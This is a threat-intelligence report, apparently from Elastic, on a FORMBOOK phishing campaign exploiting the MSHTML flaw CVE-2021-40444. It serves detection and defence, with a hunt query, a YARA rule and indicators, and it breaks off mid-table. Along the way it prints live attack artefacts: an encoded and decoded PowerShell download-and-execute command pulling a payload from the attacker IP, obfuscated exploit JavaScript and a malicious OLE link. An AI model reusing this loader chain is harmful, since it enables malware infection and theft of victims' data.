




The Elastic Intelligence & Analytics team is tracking a new FORMBOOK information-stealing campaign leveraging the
MSHTML remote code exploit ([CVE-2021-40444](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444)).
This campaign has been observed sharing infrastructure between the
[Weaponization](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html) phases of both the
testing and production releases.

We have observed, and will discuss, three phases of this campaign relevant to defenders:

* Testing phase using CVE-2021-40444
* Production phase using CVE-2021-40444
* Generic phase without CVE-2021-40444

As of November 8, 2021, Elastic observed network infrastructure actively being used to deploy the FORMBOOK information
stealer and acting as a command and control endpoint serving archives, implants, and scripts leveraged throughout the
campaign variations.

!!! info "Shout Out"

    We wanted to call out some great adjacent research from the team as Sophoslabs Uncut that was released on
    December 21, 2021. Research groups frequently analyze similar, or in this case, the same campaigns through
    their lens. This is fantastic as it gets more eyes, from different perspectives, onto the same problem. If you're
    looking for more information, please check out their research over on their
    [blog](https://news.sophos.com/en-us/2021/12/21/attackers-test-cab-less-40444-exploit-in-a-dry-run/).

## Key Takeaways

* The speed at which vulnerability PoC’s are being released highlights the need to leverage threat hunting to identify
  post-exploitation events before patches can be applied
* A FORMBOOK campaign was observed combining infrastructure that allowed testing and production phases to be linked together
* Patching for the MSHTML exploit appears to be effective as the campaign shifted from attempting to use the exploit to
  a traditional phishing malware-attachment approach
* The campaign required a multi-process attack chain to load a DLL file onto victim systems

On September 7, 2021, Microsoft confirmed a [vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2021-40444) for the
browser rendering engine used in several applications such as those within the Microsoft Office suite. Within three days
[[1](https://twitter.com/vxunderground/status/1436326057179860992?s=20)]
[[2](https://github.com/lockedbyte/CVE-2021-40444)], proof-of-concept code was released, highlighting the maturity of
the exploit development ecosystem and underscoring the importance of proactive threat hunting and patch management strategies.

Based on telemetry, we observed this exploit used in conjunction with the FORMBOOK information stealer. We also
identified an adversary tradecraft oversight that led to us connecting what appeared to be campaign testing
infrastructure and a FORMBOOK phishing campaign targeting manufacturing victims with global footprints.

This post details the tactics, techniques, and procedures (TTPs) of this campaign. Our goal is to enable detection
capabilities for security practitioners using the Elastic Stack and any readers concerned with the CVE-2021-40444
vulnerability or campaigns related to FORMBOOK.

## Details

When Microsoft disclosed a [vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2021-40444) in the browser rendering
engine used by multiple Microsoft Office products, proof-of-concept code was released within three days. This allowed
defenders to observe how the exploit operated and to develop countermeasures to defend their networks while patches and
mitigating workarounds could be deployed [[1](https://github.com/aslitsecurity/CVE-2021-40444_builders)],
[[2](https://github.com/lockedbyte/CVE-2021-40444)], [[3](https://github.com/klezVirus/CVE-2021-40444)],
[[4](https://kentosec.com/2021/09/12/cve-2021-40444-poc-demonstration/)],
[[5](https://github.com/Edubr2020/CVE-2021-40444--CABless)], [[6](https://twitter.com/vxunderground/status/1436326057179860992?s=20)].

Additionally, this highlights the maturity of the exploit development community — underscoring the importance of
proactive measures (like network and endpoint monitoring, anti-spam/phishing countermeasures, email MIME-type
attachment policies, etc.) and an exercised patch management strategy.

At a high level, an attacker could craft a malicious ActiveX control to be used by a Microsoft Office document that will
allow for code to be remotely executed on a victim machine. While this vulnerability is well documented, security
researcher [Edubr2020](https://twitter.com/Edu_Braun_0day) did a
[fantastic job](https://github.com/Edubr2020/CVE-2021-40444--CABless) of explaining how the exploit works in a default
configuration, as well as a more clever “CABless” approach. Our telemetry observed both the default configuration and
the CABless approach. We describe these in detail below.

We initiated several collection techniques simultaneously, including searching for malicious attachments that would be
included in phishing emails — one of the most common mechanisms for distributing exploit code. We noticed that not many
malicious email attachments had been reported, and by October 28, 2021, we were only able to identify four instances of
this exploit leveraged with email. In addition to the four instances of the exploit, we observed the threat actor
attempting to leverage a generic phishing approach with the FORMBOOK malware as an attachment.

The next following sections will break down these different campaign sightings and their respective details:

* Testing
* Production
* Generic

!!! important

        Throughout the Details section, it is important to note a few things that are required for this attack chain to
        function, irrespective of the Testing or Production phases

        1. _A major challenge for the campaign is to get a DLL file onto the victim system_
        2. _ActiveX controls are DLL files with special constraints_
        3. _Web pages can link ActiveX controls directly or load files that are contained in a URL — this is not
           recommended by Microsoft because file signatures cannot be validated_

### Testing phase

The first sighting contained an email with a single attachment with a sender of `admin0011[@]issratech.com`. While
researching that email address, we discovered this email address associated with additional malicious samples in
VirusTotal. The email observed in this phase included a single attachment called `Request Details.docx`.


Email attachments are stored as Base64 encoded strings in the email. To extract the `Request Details.docx` email
attachment, we can use the `echo` command to send the Base64 encoded string to `STDOUT`, pipe it to the `base64` program,
and save it as `email-attachment` so that we can analyze it.

```bash title="Decoding the email attachment"
$ echo "UEsDBBQAAAAIAFCELVO0gTweZgEAAIgFAAATAAAAW0NvbnRlbnRfVHlwZXNdLnhtbLVUyWrDMBC9F/oPRtdgK+...truncated..." \
    | base64 -D -o email-attachment
```

#### Request Details.docx

The `file` command is a standard Unix and Unix-like program for identifying a file type. Running the `file` command,
verified that this was a Microsoft Word document:

```text title="Verifying the email attachment file type"
$ file email-attachment

email-attachment: Microsoft Word 2007+
```

Microsoft Office documents, post-2007, are compressed archives. To dig into the document without opening it, you can
decompress the file using the “unzip” command as illustrated above.

```text title="Decompressing the email attachment"
$ unzip email-attachment

Archive:  email-attachment
    inflating: [Content_Types].xml
    inflating: docProps/app.xml
    inflating: docProps/core.xml
    inflating: word/document.xml
    inflating: word/fontTable.xml
    inflating: word/settings.xml
    inflating: word/styles.xml
    inflating: word/webSettings.xml
    inflating: word/media/image1.jpeg
    inflating: word/media/image2.wmf
    inflating: word/theme/theme1.xml
    inflating: word/_rels/document.xml.rels
    inflating: _rels/.rels
```

Within the document relationship file (`word/_rels/document.xml.rels`), we can view metadata about how different elements
of the document are related to each other.

```xml title="Email attachment relationship document"
$ cat word/_rels/document.xml.rels

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
...truncated...
<Relationship Id="rId6" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject"
Target="MHTML:&#x48;&#x54;&#x54;&#x50;&#x3a;&#x5c;&#x5c;&#x31;&#x30;&#x34;&#x2e;&#x32;&#x34;&#x34;&#x2e;&#x37;&#x38;&#x2e;
    &#x31;&#x37;&#x37;&#x5c;&#x50;&#x6f;&#x70;&#x65;&#x2e;&#x74;&#x78;&#x74;&#x21" TargetMode="External"/>
...truncated
</Relationships>
```

From here, we can see an externally linked MHTML OLE object inside an element using [HTML entities](https://www.w3schools.com/html/html_entities.asp),
which reserve characters in HTML. HTML entities are natively not human readable, so they need to be decoded. Using the
data analyzer and decoder from the United Kingdom's Government Communications Headquarters (GCHQ), [CyberChef](https://gchq.github.io/CyberChef/),
we were able to quickly decode the HTML entities with the “From HTML Entity” recipe (CyberChef recipes are pre-configured
data parsers and decoders).

The decoded HTML entity was `HTTP:\\104[.]244[.]78[.]177\Pope.txt`. This provided us with another atomic indicator to
add to the `admin0011[@]issratech.com` email address we’d previously collected, `104[.]244[.]78[.]177`. Additionally,
the decoded HTML entity revealed another file that could be of interest, `Pope.txt`.


#### Pope.txt

We retrieved a copy of `Pope.txt` from `104[.]244[.]78[.]177` and observed that it contained JavaScript code using
variable renaming and string obfuscation. This JavaScript performs the following functions:

* Downloads a Cabinet archive file called `comres.cab` from the same IP address but fails to extract it
* Creates several [ActiveX objects](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/automat/activex-objects)
  (which are executable applications or libraries) to be loaded into the browser rendering engine
* Uses the CVE-2021-40444 vulnerability with the ActiveX objects to perform directory traversal and execute a file called
  `IEcache.inf`. This filename is the [DLL loader](https://github.com/aslitsecurity/CVE-2021-40444_builders/blob/main/CVE-2021-40444/IEcache.inf)
  from the [ASL IT Security PoC code](https://github.com/aslitsecurity/CVE-2021-40444_builders/blob/main/CVE-2021-40444/IEcache.inf)
  and doesn’t exist in this test run


The above figure shows the notable section of the obfuscated JavaScript code. We used a debugger to parse out the results
of the lookup functions (shown commented out with `//`’s). This revealed the `classid` (`CLSID:edbc374c-5730-432a-b5b8-de94f0b57217`)
attribute which appears across the web in various other malware analyses of CVE-2021-40444. This suggests with moderate
confidence that this JavaScript was crafted using some repurposed code that has been open-sourced. The `classid` attribute is used to determine if `comres.cab` has already been downloaded — if it has, it won’t attempt to download it again.

Once `comres.cab` is downloaded and extracted, the extracted file must be located. This is why there are multiple directory execution attempts observed in JavaScript. All the work up to this point is to get the DLL (`IEcache.inf`) onto the filesystem. Finally, the DLL file would be executed as a control panel file (`.cpl`), because control panel files can be loaded as DLLs.



#### Comres.cab and 1.doc.inf

In our sample, `comres.cab` does not include the ASL IT Security PoC DLL (`IEcache.inf`). It included a file called `1.doc.inf`.

From `comres.cab` we used the file archive utility, 7-Zip, to extract `1.doc.inf`. This file is interesting because it has the `.inf` ([setup information file](https://docs.microsoft.com/en-us/windows-hardware/drivers/install/overview-of-inf-files)) extension, but in using the `file` command, we can see that it is actually a DLL file, meaning that the file type is being obfuscated.

```text title="Collecting 1.doc.inf from comres.cab"
$ 7z e comres.cab

7-Zip [64] 17.04 : Copyright (c) 1999-2021 Igor Pavlov : 2017-08-28
p7zip Version 17.04 (locale=utf8,Utf16=on,HugeFiles=on,64 bits,16 CPUs x64)

Scanning the drive for archives:
1 file, 6060053 bytes (5919 KiB)

Extracting archive: comres.cab
--
Path = comres.cab
Type = Cab
Physical Size = 6060053
Method = None
Blocks = 1
Volumes = 1
Volume Index = 0
ID = 1234

Everything is Ok

Size:       4465152
Compressed: 6060053

$ file 1.doc.inf

1.doc.inf: PE32 executable (DLL) (GUI) Intel 80386, for MS Windows
```

When analyzing the [import address table](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#import-address-table) (IAT) of `1.doc.inf`, we observed multiple API functions, which would allow the file to download and execute additional files. Of particular note were the `ShellExecuteExA` and `URLDownloadToFileW` API functions.

```text title="1.doc.inf import table"
=== IMPORTS ===

MODULE_NAME      HINT   ORD  FUNCTION_NAME
bcrypt.dll          0        BCryptSetProperty
                    0        GetKeyState
ADVAPI32.dll        0        RegDeleteKeyW
SHELL32.dll         0        ShellExecuteExA
urlmon.dll          0        URLDownloadToFileW
WS2_32.dll                9
ole32.dll           0        CoInitializeSecurity
NETAPI32.dll        0        NetLocalGroupAddMembers
OLEAUT32.dll              8
PSAPI.DLL           0        GetModuleFileNameExW
                    0        WTSSendMessageW
                    0        GetProcessWindowStation
                    0        LocalAlloc
                    0        GetModuleFileNameW
                    0        GetProcessAffinityMask
                    0        SetProcessAffinityMask
                    0        SetThreadAffinityMask
                    0        Sleep
                    0        ExitProcess
                    0        FreeLibrary
                    0        LoadLibraryA
                    0        GetModuleHandleA
                    0        GetProcAddress
                    0        GetProcessWindowStation
                    0        GetUserObjectInformationW
```

Through further analysis of the DLLs sections list, we identified that the file was protected with [VMProtect](https://vmpsoft.com/) (identified by the `.vmp0`, `.vmp1`, `.vmp2`, `.vmp3` sections). “VMProtect protects code by executing it on a virtual machine with non-standard architecture that makes it extremely difficult to analyze.”

```text title="Viewing the sections of 1.doc.inf"
$ pedump --sections 1.doc.inf | awk '{print $1, $2, $3, $4}'

=== SECTIONS ===

NAME    RVA    VSZ    RAW_SZ
.text   1000   12ecd  0
.rdata  14000  49ce   0
.data   19000  1350d8 0
.vmp1   14f000 2c70   0
.vmp0   152000 fac    0
.bss    153000 1000   0
.vmp2   154000 38c0bb 0
.vmp3   4e1000 5c6720 5c6800
.reloc  aa8000 5b4    600
```

As we were unable to analyze the VMProtected file, we continued to explore other information that we’d previously collected. Specifically, we searched for additional samples that had been sent using the same `admin0011[@]issratech.com` email address. These parallel analyses identified additional samples and campaign phases, which we’re referring to as the Production and Generic phases.

### Production phase

The second, third, and fourth sightings all had the same sender field of `admin0011[@]issratech.com` and included a single attachment — `Profile.rar` file — to deliver the second stage malware.



#### Profile.rar

Previously, we’ve highlighted files that have an extension that differs from their actual file type. To validate that the attachment is a RAR archive, we again use the `file` command to validate that it is a RAR archive.

```text title="Verifying email attachment file type"
$ file Profile.rar

Profile.rar: data
```

The attachment has a RAR file extension, but instead of having a file type of `RAR archive data, v5`, it is raw `data`. Analysts who discover a file containing raw data can use the `less` command to dump the file contents to `STDOUT` to directly inspect what may be inside.

```text title="Profile.rar dumped to STDOUT"
$ less Profile.rar
<job><script language=vbs>Set WshShell = WScript.CreateObject("WScript.Shell")
runCmd = "POwErshell -noprofile -noni -W Hidden -enc aQBlAHgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAHMAeQBzAHQAZQBtAC4AbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAGYAaQBsAGUAKAAiAGgAdAB0AHAAOgAvAC8AMQAwADQALgAyADQANAAuADcAOAAuADEANwA3AC8AYQBiAGIAMAAxAC4AZQB4AGUAIgAsACIAJABlAG4AdgA6AEwATwBDAEEATABBAFAAUABEAEEAVABBAFwAZABsAGwAaABvAHMAdABTAHYAYwAuAGUAeABlACIAKQApADsAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACIAJABlAG4AdgA6AEwATwBDAEEATABBAFAAUABEAEEAVABBAFwAZABsAGwAaABvAHMAdABTAHYAYwAuAGUAeABlACIA"
WshShell.Run "cmd /c " & runCmd, 0, True</script></job> Rar!...truncated...
```

The raw data includes a script job element that can be natively interpreted by the Windows Script Host (WSH). The job
element directs WSH to spawn a shell that spawns a hidden PowerShell process which then runs a Base64 encoded PowerShell
script. However, the script job element needs to be executed, which isn’t done by double-clicking on the file.

Decoding this string, we can see that a file called `abb01.exe` is downloaded and executed from `104[.]244[.]78[.]177`.
This is the same IP address we have observed across all Testing and Production phases.

```bash title="Decoded PowerShell command"
$ echo "aQBlAHgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAHMAeQBzAHQAZQBtAC4AbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAGYAaQBsAGUAKAAiAGgAdAB0AHAAOgAvAC8AMQAwADQALgAyADQANAAuADcAOAAuADEANwA3AC8AYQBiAGIAMAAxAC4AZQB4AGUAIgAsACIAJABlAG4AdgA6AEwATwBDAEEATABBAFAAUABEAEEAVABBAFwAZABsAGwAaABvAHMAdABTAHYAYwAuAGUAeABlACIAKQApADsAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACIAJABlAG4AdgA6AEwATwBDAEEATABBAFAAUABEAEEAVABBAFwAZABsAGwAaABvAHMAdABTAHYAYwAuAGUAeABlACIA" | base64 -D
```

```powershell title="Resulting powershell output (defanged)
iex ((new-object system.net.webclient).downloadfile("http://104[.]244[.]78[.]177/abb01.exe","$env:LOCALAPPDATA\dllhostSvc.exe"));Start-Process "$env:LOCALAPPDATA\dllhostSvc.exe"
```

We’ll continue to explore this file to identify how the script job is executed. As we displayed above, the file still
has the `Rar!` header, so we can decompress this archive. First, we’ll use the `unrar` program to decompress the RAR
archive and retrieve the contents:  `document.docx`.

```shell title="Decompressing Profile.rar"
$ unrar e Profile.rar

Extracting from Profile.rar
Extracting  document.docx                                             OK
All OK
```

#### document.docx

While `Profile.rar` appears to be a compressed archive, the PowerShell script won't download and execute `abb01.exe`
automatically upon decompressing it. To execute that script, the compressed document within `Profile.rar`, `document.docx`,
 must be opened.

Using the same technique as we highlighted in the Testing phase, we decompressed `document.docx` and examined the document
relationship file (`word/_rels/document.xml.rels`). As previously described, we observed a remote OLE object stored and
formatted as an HTML entity code block that we can decode using CyberChef.


We see the same IP address, `104[.]244[.]78[.]177` and a new filename called `Profile.html`.

#### Profile.html

Based on the HTML code, this initially appeared to be an Apache landing page. However, closer inspection identified
another obfuscated JavaScript towards the bottom of the page.

```html title="Profile.html and the obfuscated JavaScript"
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en" xml:lang="en"><head>
<meta content="text/html; charset=UTF-8" http-equiv="Content-Type" />
<!--
        XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
                This file is generated from xml source: DO NOT EDIT
        XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
        -->
<title>Getting Started - Apache HTTP Server Version 2.5</title>

...truncated…

<script>function a(){var l=['wexcKvyUWOi','ntu3ndaWmeHNC0HOsq','nfPrsujOwG','amohWRqfW5xcNSk/r23cO8kClG','
iSkfW5hcTSk4jmk4xmk2W73dSCkjWOq','ndCXnZeXDLf1tKLj','WRSYCcCZzmkmaW','WQzEqb5xWOldVWXBgSkSWRyp','AhrTBgzPBgu',
'W5tdO1L3WOFdISk8W50','u2nYAxb0','lNDZzJOUlI8UlI8UlI9ezxnRDg9Wl1bYB2zPBguUCMfYpY53C2y','iCkEW592W77cNa',
'WReLW5ddJGiJWRhcRMuYW40LW4v9xSkJWRNcObFdLSkEW5hcMe1kW4JcHL84W7WgWPtcNt4eW4NcP8oZy8kN',
'lNDZzJOUlI8UlI9eB3DUBg9HzhmVuhjVzMLSzs5Yyxi/lNDZzG','ndaWmtu5BvbZqxHH','Bg9JyxrPB24',
'ex3cTSkNW5z+w2RcKGhdLs/dNbBdImoknSk1FwVdQL/cVSkWWRC9WPldO3/dRLv5lt5lW4XFWRVcGWxcNsiX','nZa3mZKWnNP1zffirq',
'bxy1yvlcHujyqSkly2ldHvDrW5vJW7HQW5mZimkKWPJcQJClD0j3WO5SW6KTqmozaWOzACoc','mtKXmZq5mLbREgPOqW','W73dMrjjW53cQaBcVq',

...truncated…

ActiveXObject(j(0x144))[k(0x13c,'k0X5')][j(0x14c)]=k(0x14d,'[Otp'),new ActiveXObject('htmlfile')[j(0x146)]['location']=j(0x14a),new ActiveXObject('htmlfile')[k(0x148,
'MCjf')][k(0x138,'kZYE')]=j(0x147),new ActiveXObject(j(0x144))[j(0x146)][k(0x142,'Lz1J')]=k(0x14f,'BiKg'),new ActiveXObject(k(0x145,'h]@1'))[j(0x146)][j(0x14c)]=k(0x13a,'!v$V'));</s
cript>
```

Deobfuscating the JavaScript using the same debugger as before, we can see several ActiveXObjects. This time, however,
there are far fewer and the execution is more prescripted, eliminating useless calls. This shows a refinement from before.
This newer code also uses a `.wsf` extension instead of the previous `.cpl`. This allows the exploit to use the Windows
Scripting Host to execute code. This is the same directory traversal technique we observed in the Testing phase. However,
this time the JavaScript is looking for the `Profile.rar` file (whereas in the Testing phase, it was looking for
`IECache.inf)` and attempting to execute the PowerShell script, which was prepended in `Profile.rar` as a Windows
Script File (`.wsf`).


#### Dropper

As we illustrated above, `Profile.rar` has a prepended Base64 encoded PowerShell command which downloads `abb01.exe`.
The JavaScript from `Profile.html` attempts to execute this PowerShell code within `Profile.rar` as a Windows Script File.

`abb01.exe` is a dropper that when dynamically executed, drops another PE file, `yxojzzvhi0.exe` in our example.

#### FORMBOOK Binary

`yxojzzvhi0.exe` was scanned with Elastic YARA rules and identified to be a variant of
[FORMBOOK](https://malpedia.caad.fkie.fraunhofer.de/details/win.formbook), based on unique byte sequences.

FORMBOOK, also known as XLOADER, is an information stealer that includes keyloggers, clipboard copiers, and form grabber
components to collect and exfiltrate sensitive information. This malware has been
[offered as-a-service for over fiveyears](https://www.fortinet.com/blog/threat-research/deep-analysis-new-formbook-variant-delivered-phishing-campaign-part-I)
and remains a successful tool for stealing information.

### Generic phase

On October 28 and November 8, 2021, we observed additional sightings but used a generic phishing attachment tactic to
load FORMBOOK. Additionally, we were able to collect some information from the email header that we’ll discuss in the
Campaign Analysis section.


These sightings all have two RAR attachments. One of the attachments has a `.rar` file extension and the other has either
a `.gz` or `.7z` extension. We’ll explore one of the sightings below.

```text title="Verifying file types of the email attachments"
$ file D2110-095.gz DWG.rar

D2110-095.gz: RAR archive data, v5
DWG.rar:      RAR archive data, v5
```

The RAR files contained two PE files. They were identical instances of a very [common FORMBOOK variant](https://www.virustotal.com/gui/file/4216ff4fa7533209a6e50c6f05c5216b8afb456e6a3ab6b65ed9fcbdbd275096/detection).

```text title="Hashing FORMBOOK"
$ omnihash DWG.exe D2110-095.exe

Hashing file DWG.exe
    MD5:    ff882802d113ed02fa070c496f89d797
    SHA1:   aad1eed1c53f1d33ab52e13442b036bfeee91f1b
    SHA256: 4216ff4fa7533209a6e50c6f05c5216b8afb456e6a3ab6b65ed9fcbdbd275096
Hashing file D2110-095.exe
    MD5:    ff882802d113ed02fa070c496f89d797
    SHA1:   aad1eed1c53f1d33ab52e13442b036bfeee91f1b
    SHA256: 4216ff4fa7533209a6e50c6f05c5216b8afb456e6a3ab6b65ed9fcbdbd275096
```

## Campaign analysis

While researching this FORMBOOK campaign, we observed infrastructure reuse and tooling similarities during testing and
operational phases, which we believe represent a single campaign.



All artifacts will be provided at the end of this report.

### Email header

Throughout all sightings, the campaign used similar sending email addresses:

* `admin0011[@]issratech.com`
* `admin010[@]backsjoy.com`
* `admin012[@]leoeni.com`

Additionally, across the Production and Generic phases of the campaign, we observed the X-Mailer element (the software
identifier set by the sending email client) as `RainLoop/1.16.0`. RainLoop is an open-source email client. It should be
noted that in our collection, one sighting had some header information sanitized before being uploaded to VirusTotal.
RainLoop could have been referenced in this sighting, but we were not able to confirm that.

### File hashes

Across the Production phase, we were able to identify code sharing through the use of the same attachment (`Profile.rar`).

### IP addresses

Across the Testing and Production phases, we observed that `104[.]244[.]78[.]177` was used for all elements of the campaigns.
This IP address was used to host archives, implants, and scripts.

### Resource development

As research progressed, we observed activities we believed were capability testing. This activity was observed one time
and used artifacts (`[IEcache.inf](https://github.com/aslitsecurity/CVE-2021-40444_builders/blob/main/CVE-2021-40444/IEcache.inf)`,
`[document.xml.rels](https://raw.githubusercontent.com/aslitsecurity/CVE-2021-40444_builders/main/CVE-2021-40444/source/doc/word/_rels/document.xml.rels)`)
from a public CVE-2021-40444 exploit proof-of-concept [repository](https://github.com/aslitsecurity/CVE-2021-40444_builders).
Other phases included custom exploit code that differed from the PoC code but shared [initial access](https://attack.mitre.org/techniques/T1566/001)
and [execution](https://attack.mitre.org/techniques/T1203) TTPs as well as the same network infrastructure.

We observed that the `issratech[.]com`, `backsjoy[.]com`, and `leoeni[.]com` domains own  TLS certificates provided by
Let’s Encrypt. While the steps of creating a TLS certificate are not overly cumbersome, the fact that the domain owner went
through the preparatory process of creating a certificate could indicate that these domains are intended to be used for
future encrypted operations.

In the Generic phase, the campaign abandoned the MSHTML exploit and attempted to leverage a traditional phishing
malware-attachment approach. This shift in tactics is possibly because successful exploit patching rendered the
vulnerability ineffective.

### Victimology

We observed that of the four companies targeted by this campaign, all were in the manufacturing vertical. Threat actors
utilizing FORMBOOK have been observed targeting the manufacturing vertical
[in the past](https://threatpost.com/formbook-malware-targets-us-defense-contractors-aerospace-and-manufacturing-sectors/128334/).
The companies all had international footprints in:

* Industrial Materials, Aluminum extrusion, HQ in Germany (Testing phase)
* Industrial Conglomerate, Industrial Chemicals, HQ in South Korea (Production phase)
* Industrial Manufacturing Products and Consulting, HQ in Switzerland (Generic phase)
* Industrial Mechanical Engineering and Manufacturing, HQ in Germany (Generic phase)

While the targeted companies are of note (in that they are in the same vertical), an email address domain observed in
all three phases — `issratech[.]com`, appears similar to a legitimate Jamaican company domain, `isratech[.]com`, a business
that specializes in irrigation, wastewater management, and solar energy. Below, is a screenshot of `issratech[.]com` using
the default CyberPanel landing page. CyberPanel is a web hosting tool for WordPress sites.

![issratech[.]com landing page](media/issratech-landing-page.png "issratech[.]com landing page")

Each targeted company of the `admin0011[@]issratech.com` email address have expertise or products that could have been
valuable to an Isratch project listed on their projects page ([https://www.isratech[.]com/projects/](https://www.isratech[.]com/projects/)):

* Chemical: Waste-water treatment, dairy production sanitation
* Extruded aluminum: Solar array scaffolding, greenhouses

Two additional email address domains were observed in the Generic phase — one appears to be mimicking a legitimate
medical equipment manufacturer (`backjoy[.]com`) and the other (`leonei[.]com`) appears to be adversary controlled,
but seemingly not being used for legitimate purposes.

!!! note

        **Note**: `leonei[.]com` is protected by a Denial-of-Service protection service, so their domain IP address
        likely represents multiple legitimate domains and any blocking of the `leonei[.]com` IP address from the
        indicator table should be carefully measured.

It is possible, but not confirmed, that the recipients of the phishing emails in all phases are from a list of email
addresses in the manufacturing vertical. These email lists are commonly available for purchase to enable sales, marketing,
and business-to-business (B2B) efforts but can also be used for phishing campaigns.

## Tactics

Using the MITRE ATT&CK® framework, tactics represent the why of a technique or sub technique. It is the adversary's
tactical goal: the reason for performing an action.

Observed tactics:

* Resource development
* Initial access
* Execution

### Techniques / Sub techniques

Techniques and Sub techniques represent how an adversary achieves a tactical goal by performing an action.

Observed techniques/sub techniques

* Acquire infrastructure - server
* Obtain capabilities - malware and exploits
* Stage capabilities - upload malware
* Phishing - attachment
* Command and scripting interpreter - PowerShell
* Exploitation for client execution

## Detection

### Hunting queries

These queries can be used in Kibana’s Security → Timelines → New Timeline → Correlation query editor. While these queries
will identify this intrusion set, they can also identify other events of note that, once investigated, could lead to
other malicious activities.

This query will identify the CVE-2021-40444 exploit attempt from a malicious Access, Publisher, PowerPoint, or Word document.

```eql title="Hunt query identifying the CVE-2021-40444 exploit"
process where event.type in ("start", "process_started") and
    process.parent.name : ("eqnedt32.exe", "excel.exe", "fltldr.exe", "msaccess.exe", "mspub.exe",
        "powerpnt.exe", "winword.exe") and
    process.command_line :
            ("*../../..*",
            "*..\\..\\*",
            "*cpl:..*",
            "*hta:..*",
            "*js:..*",
            "*jse:..*",
            "*sct:..*",
            "*vbs:..*",
            "*wsf:..*")
```



### YARA

We have created a YARA rule to identify this FORMBOOK activity.

```yara title="FORMBOOK YARA rule"
rule Windows_Trojan_FORMBOOK {
    meta:
        author = "Elastic Security"
        creation_date = "2021-06-14"
        last_modified = "2021-08-23"
        os = "Windows"
        arch = "x86"
        category_type = "Trojan"
        family = "FORMBOOK"
        threat_name = "Windows.Trojan.FORMBOOK"

        reference_sample = "6246f3b89f0e4913abd88ae535ae3597865270f58201dc7f8ec0c87f15ff370a"

    strings:
        $a1 = { 3C 30 50 4F 53 54 74 09 40 }
        $a2 = { 74 0A 4E 0F B6 08 8D 44 08 01 75 F6 8D 70 01 0F B6 00 8D 55 }
        $a3 = { 1A D2 80 E2 AF 80 C2 7E EB 2A 80 FA 2F 75 11 8A D0 80 E2 01 }
        $a4 = { 04 83 C4 0C 83 06 07 5B 5F 5E 8B E5 5D C3 8B 17 03 55 0C 6A 01 83 }
    condition:
        any of them
}
```

## Defensive Recommendations

The following steps can be leveraged to improve a network's protective posture:

1. Review and implement the above detection logic within your environment using technology such as Sysmon and the Elastic
   Endpoint or Winlogbeat
2. Review and ensure that you have deployed the latest Microsoft Security Updates
3. Maintain backups of your critical systems to aid in quick recovery

## References

The following research was referenced throughout the document:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-40444](https://nvd.nist.gov/vuln/detail/CVE-2021-40444)
* [https://twitter.com/vxunderground/status/1436326057179860992?s=20](https://twitter.com/vxunderground/status/1436326057179860992?s=20)
* [https://github.com/lockedbyte/CVE-2021-40444](https://github.com/lockedbyte/CVE-2021-40444)
* [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444)
* [https://github.com/aslitsecurity/CVE-2021-40444_builders](https://github.com/aslitsecurity/CVE-2021-40444_builders)
* [https://github.com/klezVirus/CVE-2021-40444](https://github.com/klezVirus/CVE-2021-40444)
* [https://kentosec.com/2021/09/12/cve-2021-40444-poc-demonstration/](https://kentosec.com/2021/09/12/cve-2021-40444-poc-demonstration/)
* [https://github.com/Edubr2020/CVE-2021-40444--CABless](https://github.com/Edubr2020/CVE-2021-40444--CABless)
* [https://twitter.com/vxunderground/status/1436326057179860992?s=20](https://twitter.com/vxunderground/status/1436326057179860992?s=20)
* [https://www.fortinet.com/blog/threat-research/deep-analysis-new-formbook-variant-delivered-phishing-campaign-part-I](https://www.fortinet.com/blog/threat-research/deep-analysis-new-formbook-variant-delivered-phishing-campaign-part-I)

## Indicators

<!-- TODO -->
We will post all the indicators in the form of a STIX 2.1 JSON document soon.

<table>
  <tr>
   <td>Indicator
   </td>
   <td>Type
   </td>
   <td>Reference from blog
   </td>
   <td>Note
   </td>
  </tr>
  <tr>
   <td><code>70defbb4b846868ba5c74a526405f2271ab71de01b24fbe2d6db2c7035f8a7df</code>
   </td>
   <td>SHA256
   </td>
   <td>Request Document.docx
   </td>
   <td>Testing phase email attachment
   </td>
  </tr>
  <tr>
   <td><code>7c98db2063c96082021708472e1afb81f3e54fe6a4a8b8516e22b3746e65433b</code>
   </td>
   <td>SHA256
   </td>
   <td>comres.cab
   </td>
   <td>Testing phase CAB archive
   </td>
  </tr>
  <tr>
   <td><code>363837d5c41ea6b2ff6f6184d817c704e0dc5749e45968a3bc4e45ad5cf028d7</code>
   </td>
   <td>SHA256
   </td>
   <td>1.doc.inf
   </td>
   <td>Testing phase VMProtect DLL
   </td>
  </tr>
  <tr>
   <td><code>22cffbcad42363841d01cc7fef290511c0531aa2b4c9ca33656cc4aef315e723</code>
   </td>
   <td>SHA256
   </td>
   <td>IEcache.inf
   </td>
   <td>Testing phase DLL loader
   </td>
  </tr>
  <tr>
   <td><code>e2ab6aab7e79a2b46232af87fcf3393a4fd8c4c5a207f06fd63846a75e190992</code>
   </td>
   <td>SHA256
   </td>
   <td>Pope.txt
   </td>
   <td>Testing phase JavaScript
   </td>
  </tr>
  <tr>
